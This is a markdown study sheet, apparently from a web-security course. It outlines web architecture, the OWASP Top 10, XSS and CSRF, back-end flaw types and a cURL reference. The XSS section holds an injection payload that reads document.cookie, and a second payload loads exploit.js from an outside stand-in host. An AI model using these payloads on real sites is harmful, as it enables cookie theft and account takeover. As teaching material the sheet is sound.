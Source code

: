 
# Web Application Layout

three main categories:
- Web Application Infrastructure: 
	-  `Client-Server`
	-  `One Server`
	-  `Many Servers - One Database`
	-  `Many Servers - Many Databases`
- Web Application Components: 
	1.  `Client`
	2.  `Server`
	    -   Webserver
	    -   Web Application Logic
	    -   Database
	3.  `Services`  (Microservices)
	    -   3rd Party Integrations
	    -   Web Application Integrations
	4.  `Functions`  (Serverless) 
- Web Application Architecture: three layers
	- Presentation Layer: frontend
	- Application Layer: backend
	- Data Layer: database
# [OWASP Top 10](https://owasp.org/www-project-top-ten/) vulnerabilities
1. Broken Access Control
2. Cryptographic Failures 
3. Injection
4. Insecure Design
5. Security Misconfiguration
6. Vulnerable and Outdated Components
7. Identification and Authentication Failures
8. Software and Data Integrity Failures
9. Security Logging and Monitoring Failures
10. Server-Side Request Forgery (SSRF)
# FrontEnd Vulnerabilities
## Cross-Site Scripting (XSS)
- **3 types**: `Reflected XSS`, `Stored XSS`, `DOM XSS`
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
## Cross-Site Request Forgery (CSRF)
- caused by unfiltered user input
- **common `CSRF` attack:** 
	- gain admin priv
	- craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
	 
```html
"><script src=//www.example.com/exploit.js></script>
```
## Deobfuscation Websites

- [JS Console](https://jsconsole.com)
- [Prettier](https://prettier.io/playground/)
- [Beautifier](https://beautifier.io/)
- [JSNice](http://www.jsnice.org/)
# BackEnd Vulnerabilities
- Broken Auth/Access Control (Bypass login)
- Malicious File Upload
- Command Injection
- SQL Injection (SQLi)
- CVEs

# cURL
## curl
curl url					
option | desc
|--|--|
-o | save in a file 
-s | for silent mode
-k |skip the certificate check
-v | print both the request and response
-I |	display response header
`-i 	|	display response header and body
`-A` | to set our User-Agent from header
`-u admin:admin url` | 
`-H 'Authorization: Basic YWRtaW46YWRtaW4='` |
`-X POST -d 'username=admin&password=admin'` | 							-X for method and -d for data
`-L` | follow redirect link
`-b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1'` | set cookies 
`-s` | jq |for good json structer
	
 post ex: `curl -X POST -d '{"search":"f"}' -b 'PHPSESSID=9501nu5f74kqgohjh4ogu6debb' -H 'Content-Type: application/json' http://94.237.51.163:42040/search.php`
**Command** | **Description**
|--|--|
`curl -h` | cURL help menu
`curl inlanefreight.com` | Basic GET request
`curl -s -O inlanefreight.com/index.html` | Download file
`curl -k https://inlanefreight.com` | Skip HTTPS (SSL) certificate validation
`curl inlanefreight.com -v` | Print full HTTP request/response details
`curl -I https://www.inlanefreight.com` | Send HEAD request (only prints response headers)
`curl -i https://www.inlanefreight.com` | Print response headers and response body 
`curl https://www.inlanefreight.com -A 'Mozilla/5.0'` | Set User-Agent header
`curl -u admin:admin http://<SERVER_IP>:<PORT>/` | Set HTTP basic authorization credentials
`curl http://admin:admin@<SERVER_IP>:<PORT>/` | Pass HTTP basic authorization credentials in the URL
`curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/` | Set request header
`curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'` | Pass GET parameters
`curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/` | Send POST request with POST data
`curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/` | Set request cookies
`curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php` | Send POST request with JSON data

## APIs

**Command** | **Description**
|--|--|
`curl http://<SERVER_IP>:<PORT>/api.php/city/london` | Read entry
`curl -s http://<SERVER_IP>:<PORT>/api.php/city/ | jq` | Read all entries
`curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'`|Create (add) entry
`curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'` | Update (modify) entry
`curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City` | Delete entry

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE3NTQ0NDg2NjEsLTE3NDk4ODg2MTUsMT
k2NTg1Njg2Ml19
-->